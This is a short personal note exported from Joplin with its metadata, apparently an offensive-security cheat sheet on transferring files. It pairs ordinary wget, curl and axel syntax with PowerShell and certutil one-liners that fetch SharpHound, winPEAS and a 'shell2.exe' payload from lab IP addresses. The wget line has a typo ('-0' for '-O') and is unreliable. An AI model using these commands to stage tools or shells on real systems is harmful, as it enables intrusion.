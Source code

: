 Downloading Files

Wget

> wget -0 &lt;url&gt; &lt;filename&gt;

Curl

> curl -o &lt;filename&gt; &lt;url&gt;

Axel

> axel -a -n 20 -o &lt;filename&gt; &lt;url&gt;

Powershell

> powershell -c (New-Object Net.WebClient).DownloadFile('http://192.168.119.222:8001/SharpHound.exe', 'SharpHound.exe')
> 
> powershell -nop -c "(New-Object System.Net.WebClient).DownloadFile('[http://192.168.119.160/shell2.exe','shell2.exe](http://192.168.119.160/shell2.exe%27,%27shell2.exe "http://192.168.119.160/shell2.exe','shell2.exe")')"

## CertUtil

> certutil.exe -urlcache -split -f "http://x.x.x.x/winPEASany.exe" winPEASany.exe

id: 7fcb789b143c4fdead546ced081886f7
parent_id: 819fca2060d64809bbdac4fc93fdd86a
created_time: 2022-01-20T06:22:14.996Z
updated_time: 2022-05-06T08:03:04.736Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-20T06:22:14.996Z
user_updated_time: 2022-05-06T08:03:04.736Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1